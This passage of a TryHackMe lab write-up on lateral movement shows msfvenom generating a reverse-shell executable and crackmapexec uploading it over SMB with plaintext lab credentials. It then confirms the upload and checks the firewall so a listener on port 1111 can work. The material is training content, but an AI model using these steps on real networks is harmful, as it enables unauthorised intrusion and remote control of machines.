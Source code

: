 ```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: rev.exe

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.exe \\Windows\\Temp\\rev.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Copying shell.exe to \Windows\Temp\shell.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] Created file shell.exe on \\C$\\Windows\Temp\shell.exe
```

Make sure backdoor is uploaded

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>dir \\thmiis.za.tryhackme.com\Admin$\Temp
 Volume in drive \\thmiis.za.tryhackme.com\Admin$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmiis.za.tryhackme.com\Admin$\Temp

07/03/2023  01:39 PM    <DIR>          .
07/03/2023  01:39 PM    <DIR>          ..
...
07/03/2023  01:39 PM            15,872 rev.exe
07/03/2023  12:23 PM                98 silconfig.log
06/22/2022  04:04 PM             1,702 WERA898.tmp.WERDataCollectionStatus.txt
06/22/2022  04:04 PM           142,844 WERBAFB.tmp.appcompat.txt
              12 File(s)        240,136 bytes
               7 Dir(s)  46,547,484,672 bytes free
```

Make sure firewall is disabled on `THMJMP2` to ensure listening on port `1111` works

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>netsh firewall show state

Firewall status:
-------------------------------------------------------------------
Profile                           = Domain
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.
```
